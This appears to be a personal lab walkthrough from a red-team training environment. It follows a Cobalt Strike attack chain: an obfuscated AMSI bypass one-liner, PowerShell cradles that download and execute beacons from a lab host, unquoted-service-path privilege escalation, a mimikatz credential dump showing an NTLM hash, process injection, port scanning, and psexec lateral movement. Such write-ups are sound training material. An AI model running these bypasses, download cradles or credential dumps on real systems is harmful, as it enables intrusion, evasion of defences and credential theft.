 WKSTN 1 (bfarmer)
-> WKSTN 2 (SYSTEM)
-->
# Initial Access to `WKSTN-2` as `bfarmer` 
[[1. initial_access_Notes]]

Originally access was obtained via a `phishing` email, however for us we just logged into `WKSTN-1`, opened up a `powershell` ran an `AMSI` bypass and popped a beacon.
Commands used:

opened WKSTN-2 and ran amsi bypass in powershell session
```powershell
#obfuscated oneliner amsi bypass
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
PowerShell command to close prompt after executing `beacon` executable
```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/a'))"
```
PowerShell command to utilize [[Manual AMSI Bypass]]
```powershell
iex (new-object net.webclient).downloadstring("http://10.10.5.50:80/bypass"); iex (new-object net.webclient).downloadstring("http://10.10.5.50:80/a")
```
# Privilege Escalation to `SYSTEM` on `WKSTN-2`
utilized `SharpUp` to identify `Unquoted Service Path` [[2. unquoted_service_path_Identification]]
```powershell
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.

[*] Audit mode: running an additional 1 check(s).

=== Services with Unquoted Paths ===
	Service 'VulnService1' (StartMode: Automatic) has executable 'C:\Program Files\Vulnerable Services\Service 1.exe', but 'C:\Program Files\Vulnerable Services\Service' is modifable.



[*] Completed Privesc Checks in 0 seconds
```
[[2.1 unquoted_service_path_abuse_artifact_Kit]]
utilized `artifact kit` to create `beacon` executables that would bypass defender, uploaded the file to the location `C:\Program Files\Vulnerable Services\Service.exe`. Ran `VulnService1` and utilized `connect localhost 4444` to spawn a `SYSTEM`beacon

once on as `SYSTEM` ran the command `mimikatz !sekurlsa::logonpasswords` and obtained `jking`'s `NTLM` hash
[[Penetration Testing v2/htb_pro_Labs/offshore/access_Tracker|access_Tracker]]

```powershell
	 [00000003] Primary
	 * Username : jking
	 * Domain   : DEV
	 * NTLM     : 59fc0f884922b4ce376051134c71e22c
	 * SHA1     : 74fa9854d529092b92e0d9ebef7ce3d065027f45
	 * DPAPI    : 0837e40088a674327961e1d03946f5f2
	tspkg :	
```

# Lateral Movement to `dev\jking` on `WKSTN-2`
used the `GUI` of `COBALTSTRIKE` to inject into process owned by jking, make sure to utilize `tcp-localhost` for lateral movement 
```powershell
beacon> inject 452 x64 tcp-localhost
[*] Tasked beacon to inject windows/beacon_bind_tcp (127.0.0.1:4444) into 452 (x64)
[+] host called home, sent: 297529 bytes
[+] established link to child beacon: 10.10.123.102
```
note that `jking` is part o the `support engineers` group based off [[Get-DomainUser]]
```powershell
samaccountname                 : jking
memberof                       : {CN=Internet Users,CN=Users,DC=dev,DC=cyberbotic,DC=io, CN=MS SQL Admins,CN=Users,DC=dev,DC=cyberbotic,DC=io, CN=Support Engineers,CN=Users,DC=dev,DC=cyberbotic,DC=io}
cn                             : {John King}
objectclass                    : {top, person, organizationalPerson, user}
displayname                    : John King
```
all groups that `dev\jking` is a part of
```powershell
beacon> run whoami /groups
[*] Tasked beacon to run: whoami /groups
[+] host called home, sent: 32 bytes
[+] received output:

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                          Attributes                                                     
========================================== ================ ============================================ ===============================================================
Everyone                                   Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                              Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\BATCH                         Well-known group S-1-5-3                                      Mandatory group, Enabled by default, Enabled group             
CONSOLE LOGON                              Well-known group S-1-2-1                                      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group             
LOCAL                                      Well-known group S-1-2-0                                      Mandatory group, Enabled by default, Enabled group             
DEV\MS SQL Admins                          Group            S-1-5-21-569305411-121244042-2357301523-1113 Mandatory group, Enabled by default, Enabled group             
DEV\Internet Users                         Group            S-1-5-21-569305411-121244042-2357301523-1118 Mandatory group, Enabled by default, Enabled group             
DEV\Support Engineers                      Group            S-1-5-21-569305411-121244042-2357301523-1108 Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level       Label            S-1-16-12288     
```
[[Get-DomainComputer]] shows all computers in the Domain
```powershell
dnshostname                    : dc-2.dev.cyberbotic.io
dnshostname                    : wkstn-2.dev.cyberbotic.io
dnshostname                    : web.dev.cyberbotic.io
dnshostname                    : sql-2.dev.cyberbotic.io
dnshostname                    : wkstn-1.dev.cyberbotic.io
dnshostname                    : fs.dev.cyberbotic.io
```
targeting `WEB` first, utiling `ping` against `HN` to identify IP address
```powershell
beacon> run ping web
[*] Tasked beacon to run: ping web
[+] host called home, sent: 26 bytes
[+] received output:

Pinging web.dev.cyberbotic.io [10.10.122.30] with 32 bytes of data:
Reply from 10.10.122.30: bytes=32 time<1ms TTL=128
Reply from 10.10.122.30: bytes=32 time<1ms TTL=128
Reply from 10.10.122.30: bytes=32 time<1ms TTL=128
Reply from 10.10.122.30: bytes=32 time<1ms TTL=128

Ping statistics for 10.10.122.30:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```
utilized `portscan`
```powershell
beacon> portscan 10.10.122.30
[*] Tasked beacon to scan ports 1-1024,3389,5900-6000 on 10.10.122.30
[+] host called home, sent: 95030 bytes
[+] received output:
(ICMP) Target '10.10.122.30' is alive. [read 8 bytes]

[+] received output:
10.10.122.30:5985
10.10.122.30:3389
10.10.122.30:443
10.10.122.30:139
10.10.122.30:135
10.10.122.30:80
10.10.122.30:445 (platform: 500 version: 10.0 name: WEB domain: DEV)
Scanner module is complete
```
listing the directory we can see that we have access to `web\c$` as `jking`
```powershell
beacon> ls \\web.dev.cyberbotic.io\c$
[*] Tasked beacon to list files in \\web.dev.cyberbotic.io\c$
[+] host called home, sent: 44 bytes
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     09/26/2023 08:38:47   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     12/19/2023 21:51:47   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     11/02/2022 09:32:00   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     09/26/2023 08:51:14   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     02/05/2024 23:55:16   DumpStack.log.tmp
 384mb    fil     02/05/2024 23:55:16   pagefile.sys
```
# PSexec64 to `SYSTEM` on `WEB`
going to `jump`, `winrm` failed, `psexec worked`
```powershell
beacon> jump psexec64 10.10.122.30 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-1337imherebitch) on 10.10.122.30 via Service Control Manager (\\10.10.122.30\ADMIN$\0604669.exe)
[+] host called home, sent: 332054 bytes
[+] received output:
Started service 0604669 on 10.10.122.30
[+] host called home, sent: 65 bytes
[+] established link to child beacon: 10.10.122.30
```
can also use [[4. Pivoting with Kerberos]]
